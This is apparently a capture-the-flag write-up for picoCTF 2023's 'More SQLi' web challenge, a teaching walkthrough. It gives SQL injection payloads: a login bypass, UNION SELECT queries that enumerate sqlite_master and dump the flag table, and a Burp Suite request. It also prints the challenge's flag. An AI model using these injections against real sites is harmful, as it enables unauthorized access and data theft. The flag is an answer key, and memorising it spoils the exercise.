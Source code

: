 ### More SQLi

#Medium #web_exploitation  #picoCTF2023 #sql

Author: Mubarak Mikail

#### Description

Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:64117/).

##### Solution:

method 1
![](More_SQLi/more_sql_login_page.png)

login bypass
```css
' or 1==1--
```

![](More_SQLi/more_sql_login.png)

![](More_SQLi/more_sql_welcome.png)


```css
' UNION SELECT 1, sqlite_version(), 3;--
```

![](../../Medium/More_SQLi/more_sql_sqlite_version.png)

```css
' UNION SELECT name, sql, null from sqlite_master;--
```

![](More_SQLi/more_sql_more_table.png)

```css
' UNION SELECT flag, null, null from more_table;--
```

![](More_SQLi/more_sql_flag.png)

flag is `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}`

---

2nd method
Using burpsuite

![](More_SQLi/more_sqli_burp.png)

```css
username=test&password=' or 1==1--

Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}
```